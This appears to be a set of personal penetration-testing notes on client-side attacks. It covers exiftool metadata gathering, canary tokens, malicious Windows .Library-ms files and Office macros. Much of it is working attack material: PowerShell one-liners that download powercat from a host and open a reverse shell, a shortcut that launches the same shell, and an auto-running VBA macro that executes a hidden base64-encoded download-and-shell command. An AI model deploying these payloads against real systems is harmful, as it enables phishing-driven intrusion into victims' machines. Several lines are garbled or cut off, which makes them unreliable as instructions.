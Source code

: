 # Information and Client Fingerering

Gather Info from Docs

- Look for documents that may have exif data
- Download the documents
- use exiftool to extract th
- e exif data
`exiftool -a -u -g1 -s <filename>`
-a: Extranuclei -u 192.168.148.199 all meta information
-u: Print values in undecoded RAW format
-g1: Print group name for each tag
-s: Short output

Gather Info from Images
- Look for images that may have exif data
- Download the images and use exiftool to extract the exif data like above

# Canary Tokens
https://canarytokens.org/generate
We could also use an online IP logger like Grabify9 or JavaScript fingerprinting libraries such as fingerprint.js.10


-exclude-templates Nuclei/vulnscan/info/standalone/http-missing-security-headers.yaml -exclude-templates headers/* -exclude-templates misconfiguration/http-missing-security-headers.yaml -exclude-templates nuclei/vulnscan/info/standalone/http-missing-security-headers.yaml -exclude-templates technologies/wordpress/plugins/insert-headers-and-footers.yaml -exclude-templates thelabda/403_bypass_workflow/403-bypass_xheaders.yaml 

"powershell.exe -c IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.148/powercat.ps1'); powercat -c 192.168.119.148 -p 4444 -e powershell"


# Windows Lib Files

Windows library files are virtual containers for user content. 
They connect users with data stored in remote locations like web services or shares. 
These files have a **.Library-ms** file extension and can be executed by 
double-clicking them in Windows Explorer.

Staging a malicious .Library-ms file on a web server and sending a link to the target.
You can use WebDAV to host the file on a web server.

Library files consist of three major parts and are written in XML to specify the parameters for accessing remote locations. 

The parts are 
1. General library information,
2. Library properties, and
3. Library locations. 

Creating a file with the  **.Library-ms** extension and opening it in a text editor reveals the XML structure.

Within the XML structure you can specify the location of the remote file, library display name, and library icon, and other parameters.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```


# Windows with Reverse Shell Shortcut
## Need to fix the TargetPath 
```powershell
$Shell = New-Object -ComObject WScript.Shell
$Shortcut = $Shell.CreateShortcut("$Home\Desktop\MyShortcut.lnk")
$Shortcut.TargetPath = "powershell.exe -c IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1'); powercat -c 192.168.119.3 -p 4444 -e powershell"
$Shortcut.Save()
```

# SmbClient
```bash
smbclient //192.168.148.195/share -c 'put config.Library-ms'
```

# execute remote file 
```bash
smbclient //192.168.148.195/share -c '

# MSOFFICE

Attack and Exploitation of MS Office, MS Office Macros, and MS Office DDE

    On Windows 11, Network Level Authentication (NLA)1 is enabled by default for RDP connections and rdesktop won't connect. 
    Use xfreerdp instead, which supports NLA for non domain-joined machines.

Connect to the Windows 11 machine using xfreerdp with username and password by ip:
`xfreerdp /u:"{{ username }}" /p:"{{ password }}" /v:"{{ip_address}}" +clipboard`


Download and run powercat on the Windows 11 machine:
*Important*

Iconv -t utf-16le converts the string to little endian format, which is required for powershell to execute the command.

`echo "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.148/powercat.ps1');powercat -c 192.168.119.148 -p 4444 -e powershell " | iconv -t utf-16le | base64 -w 0`  




```

Sub AutoOpen()
  MyMacro
End Sub
`
Sub Document_Open()
  MyMacro
End Sub

Sub MyMacro()
  Dim Str As String
  Set ObjWscript = CreateObject("Wscript.Shell")
  Str = Str + "powershell.exe -nop -w hidden -enc "
  Str = Str + "SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUA"
  Str = Str + "YwB0ACAAUwB5AHMAdABlAG0ALgBOAGUA"
  Str = Str + "dAAuAFcAZQBiAEMAbABpAGUAbgB0ACkA"
  Str = Str + "LgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIA"
  Str = Str + "aQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8A"
  Str = Str + "MQA5ADIALgAxADYAOAAuADEAMQA5AC4A"
  Str = Str + "MQAyADIALwBwAG8AdwBlAHIAYwBhAHQA"
  Str = Str + "LgBwAHMAMQAnACkAOwBwAG8AdwBlAHIA"
  Str = Str + "YwBhAHQAIAAtAGMAIAAxADkAMgAuADEA"
  Str = Str + "NgA4AC4AMQAxADkALgAxADIAMgAgAC0A"
  Str = Str + "cAAgADQANAA0ADQAIAAtAGUAIABwAG8A"
  Str = Str + "dwBlAHIAcwBoAGUAbABsACAACgA="
  ObjWscript.Run Str
End Sub
```

Use Python to split up the powershell command into 50 character chunks:

```
str = "powershell.exe -nop -w hidden -e {{ base64_encoded_command }}"

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

Sub MyMacro()
  Dim Str As String
  Set ObjWscript = CreateObject("Wscript.Shell")
  Str = Str + "powershell.exe -nop -w hidden -enc "****
  Str = Str + "SQBFAFgAKABOAGUAdwAtAE8AY"
  Str = Str + "gBqAGUAYwB0ACAAUwB5AHMAdA"
  Str = Str + "BlAG0ALgBOAGUAdAAuAFcAZQB"
  Str = Str + "iAEMAbABpAGUAbgB0ACkALgBE"
  Str = Str + "AG8AdwBuAGwAbwBhAGQAUwB0A"
  Str = Str + "HIAaQBuAGcAKAAnAGgAdAB0AH"
  Str = Str + "AAOgAvAC8AMQA5ADIALgAxADY"
  Str = Str + "AOAAuADEAMQA5AC4AMQA0ADgA"
  Str = Str + "LwBwAG8AdwBlAHIAYwBhAHQAL"
  Str = Str + "gBwAHMAMQAnACkAOwBwAG8Adw"
  Str = Str + "BlAHIAYwBhAHQAIAAtAGMAIAA"
  Str = Str + "xADkAMgAuADEANgA4AC4AMQAx"
  Str = Str + "ADkALgAxADQAOAAgAC0AcAAgA"
  Str = Str + "DQANAA0ADQAIAAtAGUAIABwAG"
  Str = Str + "8AdwBlAHIAcwBoAGUAbABsACA"
  Str = Str + "ACgA="
  
